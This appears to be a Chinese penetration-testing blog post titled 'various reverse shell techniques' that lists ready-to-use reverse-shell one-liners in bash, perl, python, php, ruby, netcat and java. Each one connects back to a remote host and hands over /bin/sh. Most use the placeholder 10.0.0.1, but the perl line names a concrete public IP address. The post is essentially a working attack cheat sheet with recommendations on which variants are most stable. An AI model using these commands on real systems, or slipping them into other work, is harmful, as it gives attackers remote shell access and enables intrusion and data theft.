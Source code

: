 ```yaml
---
title: 各种反弹shell姿势
date: 2017-09-11 17:51:45
tags: 
	- 渗透
	- 内网
categories: 渗透
---
```


除以下介绍的一句话反弹shell姿势外，还有一种back.py反弹，推荐
bash版本，所有语句注意修改端口

<!-- more -->

除以下介绍的一句话反弹shell姿势外，还有一种back.py反弹，推荐
bash版本，注意修改端口

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

perl版本

    perl -e 'use Socket;$i="103.59.216.27";$p=18888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python版本，推荐，较稳定

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php版本，某些PHP大马中有集成此功能

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby版本

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc版本

    nc -e /bin/sh 10.0.0.1 1234
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
    nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

java版本，JSPSPY中有集成，比较稳定，推荐

    r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()

